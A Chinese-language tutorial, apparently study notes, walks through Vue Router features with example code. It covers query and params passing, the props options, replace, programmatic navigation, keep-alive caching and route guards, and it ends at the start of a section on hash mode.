2级路由页面Message.vue 改为动态数据，方便传参和编写3级路由功能

```vue
<template>
  <div>
    <ul>
      <li v-for="item of messageList" :key="item.id">
        <!--跳转路由并携带query参数，to的字符串写法-->
        <!--<router-link :to="`/home/message/details?id=${item.id}&title=${item.title}`">{{item.title}}</router-link>&nbsp;&nbsp;-->

        <!--跳转路由并携带query参数，to的对象写法-->
        <router-link :to="{
          path:'/home/message/details',
          query:{
            id:item.id,
            title:item.title
          }
        }">
          {{item.title}}
        </router-link>&nbsp;&nbsp;
      </li>
    </ul>
    <hr>
    <router-view></router-view>
  </div>
</template>

<script>
export default {
  name:'Message',
  data(){
    return{
      messageList:[
        {id:'001',title:'消息001'},
        {id:'002',title:'消息002'},
        {id:'003',title:'消息003'}
      ]
    }
  }
}
</script>
```

3级路由展示页面Details.vue

```vue
<template>
  <ul>
    <li>消息编号：{{$route.query.id}}</li>
    <li>消息标题：{{$route.query.title}}</li>
  </ul>
</template>

<script>
export default {
  name:'Details',
  mounted() {
    console.log('$route',this.$route)
  }
}
</script>

<style>

</style>
```

展示效果：


### 命名路由

顾名思义，给路由添加名称。


这一个名称可以用来路由链接上。

作用：是简化多级路由路径的使用


使用名称name属性。进行简写


一样可以实现功能


非对象写法使用名称，需要更改为对象写法


### params参数

路由的传递参数和ajax请求类似。

* query参数：

  ```
  http://www.???.com/xxx?id=123&name=zhuzhe
  ```

  这样在对象中，$route里的query会这样携带

  

* params参数：

  ```
  http://www.???.com/xxx/123/zhuzhe
  ```

  是一种Rustful风格，在路径上传参。需要提前在路由器中配置占位符

  

  这样在对象中，获取数据是从params参数中获取。

  

  编写路由链接时：

  ```html
  <!--跳转路由并携带query参数，to的字符串query写法-->
  <!--<router-link :to="`/home/message/details?id=${item.id}&title=${item.title}`">{{item.title}}</router-link>&nbsp;&nbsp;-->
  <!--跳转路由并携带query参数，to的字符串params写法-->
  <router-link :to="`/home/message/details/${item.id}/${item.title}`">{{item.title}}</router-link>&nbsp;&nbsp;
  ```

  或是对象写法（对象写法中用params的话，那就只能用name路由名不能用path路由地址）

  ```html
          <!--跳转路由并携带query参数，to的对象query写法-->
  <!--        <router-link :to="{-->
  <!--          name:'xiangqing',-->
  <!--          query:{-->
  <!--            id:item.id,-->
  <!--            title:item.title-->
  <!--          }-->
  <!--        }">-->
  <!--          {{item.title}}-->
  <!--        </router-link>&nbsp;&nbsp;-->
  
          <!--跳转路由并携带query参数，to的对象params写法-->
          <router-link :to="{
            name:'xiangqing',
            params:{
              id:item.id,
              title:item.title
            }
          }">
            {{item.title}}
          </router-link>&nbsp;&nbsp;
  ```

  接收参数时：

  ```html
  <li>消息编号：{{$route.params.id}}</li>
  <li>消息标题：{{$route.params.title}}</li>
  ```


### 路由组件接收参数原理

和前面使用vuex遇到的情况类似，如果传递过来的参数很多，而每次使用这些参数时都要做一个前缀获取。那这一步是否可以优化（自动化），像vuex的mapState、mapActions、mapMutations、mapGetters那样？

现在的问题：有很多个参数，用模板语法插入编写麻烦


就算使用计算属性隐藏前缀也还是麻烦，要一个个编写计算属性


可以使用路由器的一个属性props，这一个属性名和前面讲组件间通信父传子时用的props一样名字。

#### props传递固定数据

* 在路由器router/index.js中定义props的固定数据

  ```js
  //该文件专门用于创建整个应用的路由器
  import VueRouter from 'vue-router'
  import About from "@/pages/About";
  import Home from "@/pages/Home";
  import News from "@/pages/News";
  import Message from "@/pages/Message";
  import Details from "@/pages/Details";
  //创建一个路由器
  const router = new VueRouter({
      routes:[
          {
              name:'guanyu',
              path:'/about',
              component:About
          },
          {
              path:'/home',
              component:Home,
              children:[
                  {
                      path:'news',//二级路由不用加斜杠
                      component:News
                  },
                  {
                      path:'message',
                      component:Message,
                      children:[
                          {
                              name:'xiangqing',
                              path:'details/:id/:title',
                              component:Details,
                              //props的第一种写法，值为对象，该对象中的所有key和value都会以props属性形式传递给details组件
                              props:{a:1,b:'hello'}
                          }
                      ]
                  }
              ]
          }
      ]
  })
  //暴露一个路由器
  export default router;
  ```

* 路由组件Details.vue中使用props组件接收

  ```vue
  <template>
    <ul>
  <!--    <li>消息编号：{{$route.query.id}}</li>
      <li>消息标题：{{$route.query.title}}</li>-->
      <li>消息编号：{{$route.params.id}}</li>
      <li>消息标题：{{$route.params.title}}</li>
      <li>a:{{a}}</li>
      <li>b:{{b}}</li>
    </ul>
  </template>
  
  <script>
  export default {
    name:'Details',
    props:['a','b'],
    mounted() {
      console.log('$route',this.$route)
    }
  }
  </script>
  
  <style>
  
  </style>
  ```

* 获取效果

  

* 缺点：数据是写死的


#### props开启传参传递

当以param传参 + props=true这种配置时，props就会将传参以props形式传递到路由组件。（注意如果使用query传参，则不能使用props传递）

* 路由器开启props传参接力传递

  ```js
  //该文件专门用于创建整个应用的路由器
  import VueRouter from 'vue-router'
  import About from "@/pages/About";
  import Home from "@/pages/Home";
  import News from "@/pages/News";
  import Message from "@/pages/Message";
  import Details from "@/pages/Details";
  //创建一个路由器
  const router = new VueRouter({
      routes:[
          {
              name:'guanyu',
              path:'/about',
              component:About
          },
          {
              path:'/home',
              component:Home,
              children:[
                  {
                      path:'news',//二级路由不用加斜杠
                      component:News
                  },
                  {
                      path:'message',
                      component:Message,
                      children:[
                          {
                              name:'xiangqing',
                              path:'details/:id/:title',
                              component:Details,
                              //props的第一种写法，值为对象，该对象中的所有key和value都会以props属性形式传递给details组件
                              //props:{a:1,b:'hello'}
                              //props的第二种写法，值为布尔值，若布尔值为真，就会把该路由组件收到的所有params参数，以props的形式传递给Details组件
                              props:true
                          }
                      ]
                  }
              ]
          }
      ]
  })
  //暴露一个路由器
  export default router;
  ```

* 路由组件Details.vue以props形式接收

  ```vue
  <template>
    <ul>
  <!--    <li>消息编号：{{$route.query.id}}</li>
      <li>消息标题：{{$route.query.title}}</li>-->
      <li>消息编号：{{id}}</li>
      <li>消息标题：{{title}}</li>
    </ul>
  </template>
  
  <script>
  export default {
    name:'Details',
    props:['id','title'],
    mounted() {
      console.log('$route',this.$route)
    }
  }
  </script>
  
  <style>
  
  </style>

* 展示效果

  

* 缺点：只能在使用params传参时才能用


#### props传递动态数据

这一个props是写成一个对象函数，可以接收运行时的$route参数，那也就是说你可以传递给路由组件任何有关$route的内容。

* 具备了第一种对象写法传递的固定数据
* 具备了第二种开启接收params参数再以props形式传递给路由组件动态数据
* 同时支持了接收query参数再以props形式传递给路由组件动态数据


路由器配置route/index.js

```js
//该文件专门用于创建整个应用的路由器
import VueRouter from 'vue-router'
import About from "@/pages/About";
import Home from "@/pages/Home";
import News from "@/pages/News";
import Message from "@/pages/Message";
import Details from "@/pages/Details";
//创建一个路由器
const router = new VueRouter({
    routes:[
        {
            name:'guanyu',
            path:'/about',
            component:About
        },
        {
            path:'/home',
            component:Home,
            children:[
                {
                    path:'news',//二级路由不用加斜杠
                    component:News
                },
                {
                    path:'message',
                    component:Message,
                    children:[
                        {
                            name:'xiangqing',
                            //path:'details/:id/:title',
                            path:'details',
                            component:Details,
                            //props的第一种写法，值为对象，该对象中的所有key和value都会以props属性形式传递给details组件
                            //props:{a:1,b:'hello'}

                            //props的第二种写法，值为布尔值，若布尔值为真，就会把该路由组件收到的所有params参数，以props的形式传递给Details组件
                            //props:true

                            //props的第三种写法，值为函数，
                            props:function ($route) {
                                return{id:$route.query.id,title:$route.query.title,name:'zhuzhe'}
                            }
                        }
                    ]
                }
            ]
        }
    ]
})
//暴露一个路由器
export default router;
```

Message.vue使用query传参（注意理清这里，如果使用params传参则只能搭配使用name，使用query传参则用name或path都可以）

```vue
<template>
  <div>
    <ul>
      <li v-for="item of messageList" :key="item.id">
        <!--跳转路由并携带query参数，to的字符串query写法-->
        <!--<router-link :to="`/home/message/details?id=${item.id}&title=${item.title}`">{{item.title}}</router-link>&nbsp;&nbsp;-->
        <!--跳转路由并携带query参数，to的字符串params写法-->
        <!--<router-link :to="`/home/message/details/${item.id}/${item.title}`">{{item.title}}</router-link>&nbsp;&nbsp;-->

        <!--跳转路由并携带query参数，to的对象query写法-->
<!--        <router-link :to="{-->
<!--          name:'xiangqing',-->
<!--          query:{-->
<!--            id:item.id,-->
<!--            title:item.title-->
<!--          }-->
<!--        }">-->
<!--          {{item.title}}-->
<!--        </router-link>&nbsp;&nbsp;-->

        <!--跳转路由并携带query参数，to的对象params写法-->
        <router-link :to="{
          name:'xiangqing',
          query:{
            id:item.id,
            title:item.title
          }
        }">
          {{item.title}}
        </router-link>&nbsp;&nbsp;
      </li>
    </ul>
    <hr>
    <router-view></router-view>
  </div>
</template>

<script>
export default {
  name:'Message',
  data(){
    return{
      messageList:[
        {id:'001',title:'消息001'},
        {id:'002',title:'消息002'},
        {id:'003',title:'消息003'}
      ]
    }
  }
}
</script>
```

Details.vue接收动态数据和静态数据

```vue
<template>
  <ul>
<!--    <li>消息编号：{{$route.query.id}}</li>
    <li>消息标题：{{$route.query.title}}</li>-->
    <li>消息编号：{{id}}</li>
    <li>消息标题：{{title}}</li>
    <li>消息标题：{{name}}</li>
  </ul>
</template>

<script>
export default {
  name:'Details',
  props:['id','title','name'],
  mounted() {
    console.log('$route',this.$route)
  }
}
</script>

<style>

</style>
```

展示效果


缺点：编写方式复杂

备注：在函数那里可以用es6的结构赋值，来获取到传递进来的$route中的query中的参数。又因为属性名和参数值是一样的，再简写。


### route-link的replace属性

在设计路由切换不同组件渲染单个页面之后，浏览器会记录这个路由过程中的地址。

浏览器记录浏览历史是以栈来存储，从1级路由到2级路由到3级路由这个过程，历史中的记录是push到栈中。

当点击后退时，会从栈中pop出历史


使用router-link来定义路由链接时，每次路由操作就是一次push一次历史到浏览器记录栈。


对浏览器的操作除了push外，还有replace操作，即每次操作都覆盖栈顶的第一条记录。那么如果是在一个路由单页面中的路由操作，到最后都是只有当前一个历史，不能后退。

开启replace属性（可以全写或简写）

```html
<router-link :replace="true" class="list-group-item" active-class="active" :to="{name:'guanyu'}">About</router-link>

<router-link replace class="list-group-item" active-class="active" to="/home">Home</router-link>
```

开启之后，像这第1级路由的历史，就是只有当前这一个路由历史。即我在About和Home不停切换，再浏览器点击后退不会出现历史后退情况。


```
打开浏览器，跳出默认导航页面
输入localhost:8080到当前页面
点击About
点击Home

点击回退
* 如果没有设置replace，则是回退到点击About
* 如果设置了replace，则是回退到导航页面
```

这一个可以用来开启表单禁止重复提交。即做了提交之后，不能返回到前面编写的表单页面


### 编程式路由导航

 可以实现不用router-link标签照样完成路由跳转。可以解决

* router-link最终是生成a标签，这里可以是心啊其他标签
* router-link无法完成自动跳转，这里可以实现设定3秒后自动跳转。

实现编程式路由的核心，就是前面提到在每个组件中都新增的数据$router。这一个是代表路由器的实例，是全局唯一的属性。


所以要想一个事件中实现路由跳转功能，就得借助这一个VueRouter的原型对象的方法。


#### 案例：导航实现按钮点击push路由

* 调用push方法，传递一个对象，这一个对象就和router-link标签中的to对象写法一样

  

  ```vue
  <template>
    <div>
      <ul>
        <li v-for="item of messageList" :key="item.id">
          <!--跳转路由并携带query参数，to的字符串params写法-->
          <!--<router-link :to="`/home/message/details/${item.id}/${item.title}`">{{item.title}}</router-link>&nbsp;&nbsp;-->
  
          <!--跳转路由并携带query参数，to的对象params写法-->
          <router-link :to="{
            name:'xiangqing',
            query:{
              id:item.id,
              title:item.title
            }
          }">
            {{item.title}}
          </router-link>&nbsp;&nbsp;
          <!--编程式路由按钮-->
          <button @click="pushShow(item)">push查看</button>
          <button>replace查看</button>
        </li>
      </ul>
      <hr>
      <router-view></router-view>
    </div>
  </template>
  
  <script>
  export default {
    name:'Message',
    data(){
      return{
        messageList:[
          {id:'001',title:'消息001'},
          {id:'002',title:'消息002'},
          {id:'003',title:'消息003'}
        ]
      }
    },
    methods:{
      pushShow(item){
        console.log(this.$router)
        this.$router.push({
          name:'xiangqing',
          query:{
            id:item.id,
            title:item.title
          }
        })
      }
    }
  }
  </script>
  ```

* 效果和用router-link一样

  


#### 案例：导航实现按钮点击replace路由

实现效果和上面的案例一样，不过是使用了另外一个方法。

Message.vue

```vue
<template>
  <div>
    <ul>
      <li v-for="item of messageList" :key="item.id">
        <!--跳转路由并携带query参数，to的字符串params写法-->
        <!--<router-link :to="`/home/message/details/${item.id}/${item.title}`">{{item.title}}</router-link>&nbsp;&nbsp;-->

        <!--跳转路由并携带query参数，to的对象params写法-->
        <router-link :to="{
          name:'xiangqing',
          query:{
            id:item.id,
            title:item.title
          }
        }">
          {{item.title}}
        </router-link>&nbsp;&nbsp;
        <!--编程式路由按钮-->
        <button @click="pushShow(item)">push查看</button>
        <button @click="replaceShow(item)">replace查看</button>
      </li>
    </ul>
    <hr>
    <router-view></router-view>
  </div>
</template>

<script>
export default {
  name:'Message',
  data(){
    return{
      messageList:[
        {id:'001',title:'消息001'},
        {id:'002',title:'消息002'},
        {id:'003',title:'消息003'}
      ]
    }
  },
  methods:{
    pushShow(item){
      console.log(this.$router)
      this.$router.push({
        name:'xiangqing',
        query:{
          id:item.id,
          title:item.title
        }
      })
    },
    replaceShow(item){
      this.$router.replace({
        name:'xiangqing',
        query:{
          id:item.id,
          title:item.title
        }
      })
    }
  }
}
</script>
```

对比效果

**push**

现在是http://localhost:8080/#/home/message

它的上一次历史是http://localhost:8080/#/home

在push中，依次点击1，2，3，则回退时是3，2，1

**replace**

而在replace中，点击1时是替换了http://localhost:8080/#/home/message

后面不管点击多少次，在回退时是直接回退到http://localhost:8080/#/home

 


#### 案例：导航实现历史的前进和后退

在$router中也提供了对访问历史的操作

Banner.vue

```vue
<template>
  <div class="col-xs-offset-2 col-xs-8">
    <div class="page-header">
      <h2>Vue Router Demo</h2>
      <button @click="back">后退</button>
      <button @click="forward">前进</button>
      <button @click="go">后退2步</button>
    </div>
  </div>
</template>

<script>
export default {
  name:'Banner',
  methods:{
    back(){
      this.$router.back();
    },
    forward(){
      this.$router.forward();
    },
    go(){//负数标识后退步数，正数表示前进部署
      this.$router.go(-2);
    }
  }
}
</script>

<style>

</style>
```

效果：3级路由跳转2次后，点击回退2步直接回退到还没3级导航前


### 路由缓存

路由组件在切换之后，会被销毁，等到重新路由到这个组件再去装载。而路由缓存就是让路由组件存活下来。


News组件在选修卡切换之后，发生了销毁。


### 案例：导航内容缓存功能

解决上面提到的News选项内容保存。被缓存的组件将不会被销毁。

* 找到News组件被装载的入口，也就是在Home组件中。

- 将router-link标签用keep-alive标签包括起来
- 添加include属性来指定缓存哪些组件

Home.vue

```vue
<template>
  <div>
    <h2>我是Home内容</h2>
    <div>
      <ul class="nav nav-tabs">
        <li>
          <router-link class="list-group-item" active-class="active" to="/home/news">News</router-link>
        </li>
        <li>
          <router-link class="list-group-item" active-class="active" to="/home/message">Message</router-link>
        </li>
      </ul>
      <keep-alive include="News">
        <router-view></router-view>
      </keep-alive>
    </div>
  </div>
</template>

<script>
  export default {
    name:'Home',
    mounted() {
      console.log('[Home]:mounted...组件挂载完毕！')
      console.log('[Home]:vc=',this)
    },
    beforeDestroy() {
      console.log('[Home]:beforeDestroy...组件将被销毁！')
    }
  }
</script>

<style>

</style>
```

如果要缓存多个，则使用数组写法


### 两个生命周期钩子函数

前面设计的组件缓存，如果存在一种情况：我只要特定元素的缓存，其他需要销毁。

那么这一个就可以使用路由组件的生命周期钩子函数。

* activated：路由组件激活。指路由组件被观察到。
* deactivated：路由组件失活。指路由组件被隐藏。

这两个生命周期钩子函数和 挂载、被销毁前 这两个钩子函数类似。不过更多是在路由组件被缓存之后使用。缓存之后的路由组件不会被销毁。所以就在这一个基础上对显示和隐藏两个状态做钩子函数。

可以做在显示时才启动的js代码，在隐藏之后就关闭。而组件内容因为缓存而不会小时。




我可以保证我的路由组件缓存正常：输入框的内容在切换后回来还存在。又保证定时器不会一直启动，失活时关闭，激活时开启。

代码：

News.vue 提供一个定时器样式，只在激活时触发，失活时关闭

```vue
<template>
  <ul>
    <li :style="{opacity}">生命周期</li>
    <li>news001 <input type="text"></li>
    <li>news002 <input type="text"></li>
    <li>news003 <input type="text"></li>
  </ul>
</template>

<script>
export default {
  name:'News',
  data(){
    return{
      opacity:1
    }
  },
  // mounted() {
  //   this.timeer = setInterval(()=>{
  //     this.opacity -= 0.01;
  //     if (this.opacity <=0) this.opacity = 1;
  //   },16)
  // },
  // beforeDestroy() {
  //   console.log('[News]:beforeDestroy...组件将被销毁！')
  //   clearInterval(this.timeer);
  // }
  activated() {//激活：组件被看到时
    console.log('[News]:activated....路由组件被激活')
    this.timeer = setInterval(()=>{
      this.opacity -= 0.01;
      if (this.opacity <=0) this.opacity = 1;
    },16)
  },
  deactivated() {//失活：组件被隐藏时
    console.log('[News]:deactivated....路由组件已失活')
    clearInterval(this.timeer);
  }
}
</script>
```


### 路由守卫

保护路由安全。对路由访问做限制，只有特定条件才能进行路由。（权限）

路由守卫定义在路由器配置中，对路由器做全局管理。可以获取到来自那个路由组件，将去哪个路由组件，是否放行。

```js
//加一个路由守卫
//全局前置路由守卫：初始化的时候调用、在每一次路由切换之前调用函数
router.beforeEach((to, from, next)=>{
    console.log('[VueRouter]:beforeEach...前置守卫被调用！')
    console.log('[VueRouter]:beforeEach...我来自from',from)
    console.log('[VueRouter]:beforeEach...我将要去to',to)
    next()//放行
})
```


所以可以利用这些信息来判断什么时候对路由放行，什么时候不放行

#### 案例：导航前置路由守卫

使用前置守卫，在路由之前判断当前本地存储的school是否符合条件中的值。

对正常路径的访问正常路由，对敏感路径的访问选择验证本地存储的信息（这一步也可以改为验证后端用户信息token）

代码：

router/index.js

```js
//该文件专门用于创建整个应用的路由器
import VueRouter from 'vue-router'
import About from "@/pages/About";
import Home from "@/pages/Home";
import News from "@/pages/News";
import Message from "@/pages/Message";
import Details from "@/pages/Details";
//创建一个路由器
const router = new VueRouter({
    routes:[
        {
            name:'guanyu',
            path:'/about',
            component:About
        },
        {
            name:'zhuye',
            path:'/home',
            component:Home,
            children:[
                {
                    name:'xinwen',
                    path:'news',//二级路由不用加斜杠
                    component:News
                },
                {
                    name:'xiaoxi',
                    path:'message',
                    component:Message,
                    children:[
                        {
                            name:'xiangqing',
                            //path:'details/:id/:title',
                            path:'details',
                            component:Details,
                            //props的第一种写法，值为对象，该对象中的所有key和value都会以props属性形式传递给details组件
                            //props:{a:1,b:'hello'}

                            //props的第二种写法，值为布尔值，若布尔值为真，就会把该路由组件收到的所有params参数，以props的形式传递给Details组件
                            //props:true

                            //props的第三种写法，值为函数，
                            // props:function ($route) {
                            //     return{id:$route.query.id,title:$route.query.title,name:'zhuzhe'}
                            // }
                            props:function ({query:{id,title}}) {
                                return{id,title,name:'zhuzhe'}
                            }
                        }
                    ]
                }
            ]
        }
    ]
})

//加一个路由守卫
//全局前置路由守卫：初始化的时候调用、在每一次路由切换之前调用函数
router.beforeEach((to, from, next)=>{
    console.log('[VueRouter]:beforeEach...前置守卫被调用！')
    console.log('[VueRouter]:beforeEach...我来自from',from)
    console.log('[VueRouter]:beforeEach...我将要去to',to)
    //next()//放行
    //对特定路径，根据本地存储中的内容来决定是否放行
    if (to.name=='/home/news' || to.path == '/home/message'){
        if (localStorage.getItem('school')==='zhuzhe'){
            next()
        }else {
            alert('当前用户没有访问权限')
        }
    }else {//普通路径放行
        next()
    }
})

//暴露一个路由器
export default router;
```

访问正常路径


访问敏感路径且信息不对


访问敏感路径并且信息正确


#### 案例：导航前置路由守卫优化

对于上一个案例中的判断写法，在遇到很多条件情况下，判断会变得复杂。

* 在路由配置中，对每个路由增加一个属性来表明是否要经过路由守卫校验
* 这一个配置是在$router的meta属性中

代码：router/index.js

```js
//该文件专门用于创建整个应用的路由器
import VueRouter from 'vue-router'
import About from "@/pages/About";
import Home from "@/pages/Home";
import News from "@/pages/News";
import Message from "@/pages/Message";
import Details from "@/pages/Details";
//创建一个路由器
const router = new VueRouter({
    routes:[
        {
            name:'guanyu',
            path:'/about',
            component:About
        },
        {
            name:'zhuye',
            path:'/home',
            component:Home,
            children:[
                {
                    name:'xinwen',
                    path:'news',//二级路由不用加斜杠
                    component:News,
                    meta:{isAuth:true}
                },
                {
                    name:'xiaoxi',
                    path:'message',
                    component:Message,
                    meta:{isAuth:true},
                    children:[
                        {
                            name:'xiangqing',
                            //path:'details/:id/:title',
                            path:'details',
                            component:Details,
                            //props的第一种写法，值为对象，该对象中的所有key和value都会以props属性形式传递给details组件
                            //props:{a:1,b:'hello'}

                            //props的第二种写法，值为布尔值，若布尔值为真，就会把该路由组件收到的所有params参数，以props的形式传递给Details组件
                            //props:true

                            //props的第三种写法，值为函数，
                            // props:function ($route) {
                            //     return{id:$route.query.id,title:$route.query.title,name:'zhuzhe'}
                            // }
                            props:function ({query:{id,title}}) {
                                return{id,title,name:'zhuzhe'}
                            }
                        }
                    ]
                }
            ]
        }
    ]
})

//加一个路由守卫
//全局前置路由守卫：初始化的时候调用、在每一次路由切换之前调用函数
router.beforeEach((to, from, next)=>{
    console.log('[VueRouter]:beforeEach...前置守卫被调用！')
    console.log('[VueRouter]:beforeEach...我来自from',from)
    console.log('[VueRouter]:beforeEach...我将要去to',to)
    //next()//放行
    //对特定路径，根据本地存储中的内容来决定是否放行
    if (to.meta.isAuth){
        if (localStorage.getItem('school')==='zhuzhe'){
            next()
        }else {
            alert('当前用户没有访问权限')
        }
    }else {//普通路径放行
        next()
    }
})

//暴露一个路由器
export default router;
```


#### 案例：导航后置路由守卫

后置路由守卫就是在路由请求之后触发，这种场景有很多使用。比如记录当前访问路径，比如根据当前访问路由，展示不同网页标题。

例子：通过在路由meta中配置标题，实现访问不同路径路由下的组件后，标题展示该组件的标题

router/index.js

```js
//该文件专门用于创建整个应用的路由器
import VueRouter from 'vue-router'
import About from "@/pages/About";
import Home from "@/pages/Home";
import News from "@/pages/News";
import Message from "@/pages/Message";
import Details from "@/pages/Details";
//创建一个路由器
const router = new VueRouter({
    routes:[
        {
            name:'guanyu',
            path:'/about',
            component:About,
            meta:{title:'关于'}
        },
        {
            name:'zhuye',
            path:'/home',
            component:Home,
            meta:{title: '主页'},
            children:[
                {
                    name:'xinwen',
                    path:'news',//二级路由不用加斜杠
                    component:News,
                    meta:{isAuth:true,title:'新闻'}
                },
                {
                    name:'xiaoxi',
                    path:'message',
                    component:Message,
                    meta:{isAuth:true,title:'消息'},
                    children:[
                        {
                            name:'xiangqing',
                            //path:'details/:id/:title',
                            path:'details',
                            component:Details,
                            meta:{title:'详情'},
                            //props的第一种写法，值为对象，该对象中的所有key和value都会以props属性形式传递给details组件
                            //props:{a:1,b:'hello'}

                            //props的第二种写法，值为布尔值，若布尔值为真，就会把该路由组件收到的所有params参数，以props的形式传递给Details组件
                            //props:true

                            //props的第三种写法，值为函数，
                            // props:function ($route) {
                            //     return{id:$route.query.id,title:$route.query.title,name:'zhuzhe'}
                            // }
                            props:function ({query:{id,title}}) {
                                return{id,title,name:'zhuzhe'}
                            }
                        }
                    ]
                }
            ]
        }
    ]
})

//加一个路由守卫
//全局前置路由守卫：初始化的时候调用、在每一次路由切换之前调用函数
router.beforeEach((to, from, next)=>{
    console.log('[VueRouter]:beforeEach...前置守卫被调用！')
    console.log('[VueRouter]:beforeEach...我来自from',from)
    console.log('[VueRouter]:beforeEach...我将要去to',to)
    //next()//放行
    //对特定路径，根据本地存储中的内容来决定是否放行
    if (to.meta.isAuth){
        if (localStorage.getItem('school')==='zhuzhe'){
            next()
        }else {
            alert('当前用户没有访问权限')
        }
    }else {//普通路径放行
        next()
    }
})

//全局后置路由守卫
router.afterEach((to, from)=>{//后置路由没有拦截作用，所以没有next
    console.log('[VueRouter]:afterEach...后置守卫被调用！')
    console.log('[VueRouter]:afterEach...我来自from',from)
    console.log('[VueRouter]:afterEach...我将要去to',to)
    document.title = to.meta.title || 'zhuzhe';//像是那种被访问前拦截的，必须访问成功之后才给更改标题
})

//暴露一个路由器
export default router;
```

效果：


#### 案例：导航独享路由守卫

即给一个路由配置提供守卫。配置方式则是在配置项路由项中，不是在外部定义的，所以也就是独享非全局的。


因为独享路由守卫只支持前置，所以可以搭配全局后置路由首位来使用。

```js
//该文件专门用于创建整个应用的路由器
import VueRouter from 'vue-router'
import About from "@/pages/About";
import Home from "@/pages/Home";
import News from "@/pages/News";
import Message from "@/pages/Message";
import Details from "@/pages/Details";
//创建一个路由器
const router = new VueRouter({
    routes:[
        {
            name:'guanyu',
            path:'/about',
            component:About,
            meta:{title:'关于'}
        },
        {
            name:'zhuye',
            path:'/home',
            component:Home,
            meta:{title: '主页'},
            children:[
                {
                    name:'xinwen',
                    path:'news',//二级路由不用加斜杠
                    component:News,
                    meta:{isAuth:true,title:'新闻'},
                    beforeEnter:(to, from, next)=> {
                        //在进入新闻之前就会调用
                        if (localStorage.getItem('school') === 'zhuzhe') {
                            next()
                        } else {
                            alert('当前用户没有访问权限')
                        }
                    }
                },
                {
                    name:'xiaoxi',
                    path:'message',
                    component:Message,
                    meta:{isAuth:true,title:'消息'},
                    children:[
                        {
                            name:'xiangqing',
                            //path:'details/:id/:title',
                            path:'details',
                            component:Details,
                            meta:{title:'详情'},
                            //props的第一种写法，值为对象，该对象中的所有key和value都会以props属性形式传递给details组件
                            //props:{a:1,b:'hello'}

                            //props的第二种写法，值为布尔值，若布尔值为真，就会把该路由组件收到的所有params参数，以props的形式传递给Details组件
                            //props:true

                            //props的第三种写法，值为函数，
                            // props:function ($route) {
                            //     return{id:$route.query.id,title:$route.query.title,name:'zhuzhe'}
                            // }
                            props:function ({query:{id,title}}) {
                                return{id,title,name:'zhuzhe'}
                            }
                        }
                    ]
                }
            ]
        }
    ]
})

//加一个路由守卫
//全局前置路由守卫：初始化的时候调用、在每一次路由切换之前调用函数
// router.beforeEach((to, from, next)=>{
//     console.log('[VueRouter]:beforeEach...前置守卫被调用！')
//     console.log('[VueRouter]:beforeEach...我来自from',from)
//     console.log('[VueRouter]:beforeEach...我将要去to',to)
//     //next()//放行
//     //对特定路径，根据本地存储中的内容来决定是否放行
//     if (to.meta.isAuth){
//         if (localStorage.getItem('school')==='zhuzhe'){
//             next()
//         }else {
//             alert('当前用户没有访问权限')
//         }
//     }else {//普通路径放行
//         next()
//     }
// })
//
//全局后置路由守卫
router.afterEach((to, from)=>{//后置路由没有拦截作用，所以没有next
    console.log('[VueRouter]:afterEach...后置守卫被调用！')
    console.log('[VueRouter]:afterEach...我来自from',from)
    console.log('[VueRouter]:afterEach...我将要去to',to)
    document.title = to.meta.title || 'zhuzhe';//像是那种被访问前拦截的，必须访问成功之后才给更改标题
})

//暴露一个路由器
export default router;
```


#### 组件内路由守卫

在组件内部定义的路由守卫，前面4种都是定义在路由配置中的守卫。

只有一种守卫才有前置和后置，那就是全局路由守卫。


而组件路由守卫是提供了两个方法，都只作用在组件内部


和全局路由守卫不一样的是，这里的离开是指一个特定的来源：当一个组件是作为路由组件时，由路由组件进入该组件到离开该组件就会调用下面两个方法。

```vue
<script>
  export default {
    name:'About',
    mounted() {
      console.log('[About]:mounted...组件挂载完毕！')
      console.log('[About]:vc=',this)
    },
    beforeDestroy() {
      console.log('[About]:beforeDestroy...组件将被销毁！')
    },
    //通过路由规则进入该组件时调用
    beforeRouteEnter(to, from, next){

    },
    //通过路由规则离开该组件时调用
    beforeRouteLeave(to, from, next){

    }
  }
</script>
```

如果是直接引入注册，不通过路由规则，则这里的组件不会触发路由规则。


这里的组件内路由规则，在使用上和前面定义的路由规则一样。但对于离开有了限制，如果没有指定放行，则无法进行离开路由。

```vue
<script>
  export default {
    name:'About',
    mounted() {
      console.log('[About]:mounted...组件挂载完毕！')
      console.log('[About]:vc=',this)
    },
    beforeDestroy() {
      console.log('[About]:beforeDestroy...组件将被销毁！')
    },
    //通过路由规则进入该组件时调用
    beforeRouteEnter(to, from, next){
      console.log('[About]:beforeRouteEnter...经由路由规则进入！')
      next();
    },
    //通过路由规则离开该组件时调用
    beforeRouteLeave(to, from, next){
      console.log('[About]:beforeRouteLeave...经由路由规则离开！')
      next();
    }
  }
</script>
```

效果：


给组件内路由守卫添加一定的判断逻辑。先在路由配置项中提供一个属性表示要经过权限校验。


在进行校验时，需要提供本地存储的信息，没有的情况下就会提示。这里是每个路由规则都定在每个组件中，和前面的独享路由组件类似，但是提供了更多功能。

About.vue

```vue
<template>
  <h2>我是About内容</h2>
</template>

<script>
  export default {
    name:'About',
    mounted() {
      console.log('[About]:mounted...组件挂载完毕！')
      console.log('[About]:vc=',this)
    },
    beforeDestroy() {
      console.log('[About]:beforeDestroy...组件将被销毁！')
    },
    //进入守卫，通过路由规则，进入该组件时调用
    beforeRouteEnter(to, from, next){
      //进入时to是about组件
      console.log('[About]:beforeRouteEnter...经由路由规则进入！')
      if (to.meta.isAuth){
        if (localStorage.getItem('school')==='zhuzhe'){
          next();
        }else {
          alert('当前用户没有权限！')
        }
      }else {
        next();
      }
    },
    //离开守卫，通过路由规则，离开该组件时调用
    beforeRouteLeave(to, from, next){
      //离开时from是about组件
      console.log('[About]:beforeRouteLeave...经由路由规则离开！')
      next();
    }
  }
</script>

<style>

</style>
```


提供正确的信息就可以路由到当前组件。


#### 路由器工作模式

路由器中有两种工作模式：hash和history

可以在路由器配种进行切换：


**hash工作模式**

对于前面路由地址中的#号，称为hash


从#号开始到路径结束这一段称为hash值


